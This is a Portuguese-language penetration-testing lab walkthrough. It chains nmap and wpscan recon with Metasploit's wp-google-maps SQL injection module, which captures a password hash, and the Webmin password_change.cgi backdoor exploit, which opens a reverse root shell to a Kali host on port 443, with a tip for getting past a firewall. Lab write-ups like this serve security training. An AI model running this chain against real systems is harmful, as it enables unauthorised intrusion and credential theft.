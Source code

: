 ### First Pass Recon

```
1º sudo nmap -sS -T4 'Seu IP'
``` 
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

```
2º wpscan  —url ‘IP ALVO’
```
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

```
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
```
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

```
4º sudo msfconsole
```
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

```
5º msf5 > search wp-google-maps
```
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

```
6º msf5 > use 0  
```
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

```
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra as opções e quais dados devem ser setados no exploit."

```
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
```
"Adiciona o IP do alvo ao exploit para SQLinjection" 

```
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

```
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
```
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

```
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
```
"Comando para iniciar o exploit que será utilizado."

```
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

```
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
```
"Analisa as informações do exploit, mostrando a versão."

```
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
```
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

```
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

```
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO 
(Realiza conexão remota)
```

```
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI 
(Recebe a conexão reversa)
```

```
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 
(Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
```

```
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE 
(Confirma para que assim tenha a conexão)
```

```
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```

Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal ```-> shell <-``` acesso realizado. 
